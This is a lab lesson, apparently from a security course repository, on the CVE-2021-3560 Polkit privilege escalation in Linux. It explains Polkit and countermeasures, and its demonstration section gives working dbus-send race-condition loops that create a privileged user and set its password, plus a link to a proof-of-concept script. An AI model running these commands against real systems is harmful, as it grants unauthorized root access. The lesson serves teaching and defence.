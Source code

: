 ```yaml
---
title: "Polkit Privilege Escalation"
teaching: 20
exercises: 40
questions:
- "What is Polkit?"
- "How the Exploit Works"
objectives:
- "Understand the Role and Function of Polkit"
- "Identify the Vulnerability"
- "Recognize the Exploitation Process"
---
```



## What is Polkit?

Polkit is integral to numerous Linux distributions for managing system-wide permissions. The CVE-2021-3560 vulnerability exploits Polkit's functionality, enabling local users to escalate their privileges and achieve root access. This unauthorized elevation can lead to complete system control, enabling attackers to perform further malicious activities. The root cause of this vulnerability lies in a defect within Polkit’s authentication mechanism, which allows the bypassing of the authentication step needed for root access acquisition. Mitigation of this security flaw involves updating the operating system and ensuring that the Polkit version is updated beyond 0.118.

Originally known as PolicyKit, Polkit serves as an intermediary allowing various applications to communicate and execute processes via D-bus, a middleware that facilitates inter-process communication. It enables both privileged (sudo) and non-privileged processes to interact, providing a unified control interface for managing system-wide permissions. For instance, executing the ‘pkexec’ command in a Linux terminal typically triggers a graphical interface prompt for sudo authentication. Conversely, operating Polkit via command-line interfaces permits direct interaction without a graphical user interface.

## Details on How the Exploit Works

The attack is executed through the transmission of a sequence of meticulously constructed D-bus messages directed at Polkit, aimed at inducing a race condition. This condition erroneously issues an authorization message, circumventing the standard authentication procedure. Additionally, the assault leverages the XDG_RUNTIME_DIR environment variable, which delineates the location where Polkit archives its authentication-specific files and tokens. Unauthorized entry into this directory facilitates access to the system without authentication. The success of this exploit significantly depends on timing; therefore, multiple attempts and a rapid succession of requests are essential to increase the likelihood of a successful breach.

## What are the countermeasures?

1. Update and Patch Systems: Regularly update the operating system and all associated packages to ensure that the Polkit component is beyond the vulnerable versions. Specifically, ensure Polkit is updated to version 0.118 or higher, which addresses this specific vulnerability.

2. Monitor System Activity: Implement comprehensive monitoring of system activities, particularly focusing on authentication processes and system privilege escalations. Use intrusion detection systems (IDS) and log management solutions to detect and alert on unusual activities that could indicate an attempted exploitation of the Polkit vulnerability.

3. Restrict Access to Sensitive Directories: Limit access to critical system directories and environment variables, such as XDG_RUNTIME_DIR, which are known to be leveraged in the CVE-2021-3560 exploit. Employ filesystem permissions and access control lists (ACLs) to restrict unauthorized users from accessing or modifying these directories and files.

### Demonstration
1. We will start by first adding the Polkit Privilege Escalation application:

![polkit escalation](https://github.com/markyu0401/CVE-2021-3560-Polkit-Privilege-Escalation/assets/60618569/389a5c69-5b79-469e-b7a3-f8d47bf03668)

2. Next, click the View link to go to the application-specific page and start the application containers:

![polkit start up](https://github.com/markyu0401/CVE-2021-3560-Polkit-Privilege-Escalation/assets/60618569/54d40152-45ce-4b80-82da-7002f7f5db04)

3. Open the terminal and type start with start.sh to remove stale PID file /var/run/dbus/pid. and startsystem message bus dbus.

![start_sh](https://github.com/markyu0401/CVE-2021-3560-Polkit-Privilege-Escalation/assets/60618569/c1dc0b65-67d1-4447-91d7-6e3273e9dc60)\

4. Copy these code in to the terminal, this step finds the time it takes a command to finish. Ensure that the outputted times are written
down.:

   ```
   time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:samurai string:"Samurai" int32:1
   ```
![find_time](https://github.com/markyu0401/CVE-2021-3560-Polkit-Privilege-Escalation/assets/60618569/0a5f41af-9620-4767-bd1f-51fe6b4b593c)

taking in account the “real” time, half it to get the half time it takes to run the dbus query. The
reason for halving is because we want the process to be interrupted in the middle (when the process is still
being worked on at the server level). In the command ensure to change the X.XXX time to half of the
“real” time. You may need to run the command a couple of times as it may not work the first time. The
following is the template command:

5. Create a User with Sudo Privileges: Replace X.XXX with half of the 'real' time above because we want the process to be interrupted in the middle the command will run as a loop of 10000 times You may need to run this step several times.
```
for counter in {1..10000}; do dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:samurai string:"Samurai" int32:1 & sleep X.XXXs; kill $!;done
```
6. Check User creation ``id samurai`` It should show samurai user exists and show his permissions. Run the step 4 and 5 again if not.

![success!](https://github.com/markyu0401/CVE-2021-3560-Polkit-Privilege-Escalation/assets/60618569/865b55a7-5302-4bc0-aae9-c839b160230f)

7. Then we need to create a hashed password, in this case, “iamsamurai”. Use the following command to do
that:
``openssl passwd -5 iamsamurai``

During the demo, it gave the following hash:``$5$.ulBb4qpmdG5agJY$ucd6GEdfOVOiCojGnCaFNJL1YIjaQRB/TxkbDKyqPw3``

8. The next step is to replace the password hash with the newly generated hash. Ensure to change the hash
string with your given hash and to change the X.XXX with the same half-time as before. Also take the
UID of the account samurai and change the UUUU part of the command:

```
for counter in {1..10000}; do dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/UserUUUU org.freedesktop.Accounts.User.SetPassword string:'Password Hash' string:GoldenEye & sleep X.XXXs; kill $!;done
```
9. Switch to new user with the password you created in step 7 `su - samurai`

![success2](https://github.com/markyu0401/CVE-2021-3560-Polkit-Privilege-Escalation/assets/60618569/87bc2ed6-e19c-4884-b23f-6684b79ec831)

## Alternative Workout Shell Script
[https://github.com/markyu0401/CVE-2021-3560-Polkit-Privilege-Escalation/blob/main/poc.sh](https://github.com/markyu0401/CVE-2021-3560-Polkit-Privilege-Escalation/blob/main/poc.sh)https://github.com/markyu0401/CVE-2021-3560-Polkit-Privilege-Escalation/blob/main/poc.sh

The poc.sh is the modified version of an existing approach to this lab. Either navigate to the
file and edit the file’s field for username and password or when you call the file, use the command below.
Those will be used to log into the newly created user. Then simply execute the file. Then simply execute
the shell script, it’ll let you know if it ran successfully. Then su into the newly created user!
Use start.sh first then `./poc.sh -u=samurai -p=samurai`

This alternative script was offered to help, due to the nature of the docker compartmentalized
environment. With the nature of this exploit being heavily timing based and non-deterministic, the code
supplied can determine the time intervals at a higher level allowing it to have a much higher degree of
success. The code runs the same lines of code in the primary approach however it is more of an automated
process that should only need to be run less than five times.

![poc_success](https://github.com/markyu0401/CVE-2021-3560-Polkit-Privilege-Escalation/assets/60618569/15fe4eed-eea7-46d1-ab42-70c04999f5dc)

## Mitigation, Patches, and Countermeasures
The most effective strategy for addressing this vulnerability involves installing available updates and patches for the exploit, as well as ensuring the system is up-to-date, particularly ensuring that the Polkit version is beyond 0.118. It is also crucial for system administrators to keep an eye on system logs for any abnormal activities that may suggest a breach or an ongoing attack. The vulnerability has been resolved in the latest versions of certain operating systems, such as Ubuntu 20.04. To verify the security patch, initiate a new Docker container using the most recent version of Ubuntu and attempt to execute the attack.

## Final Notes
The code found in the poc.sh file was originally made by SecNigma, and posted to a public repository on
Github. The link to his Github can be found here:
https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation
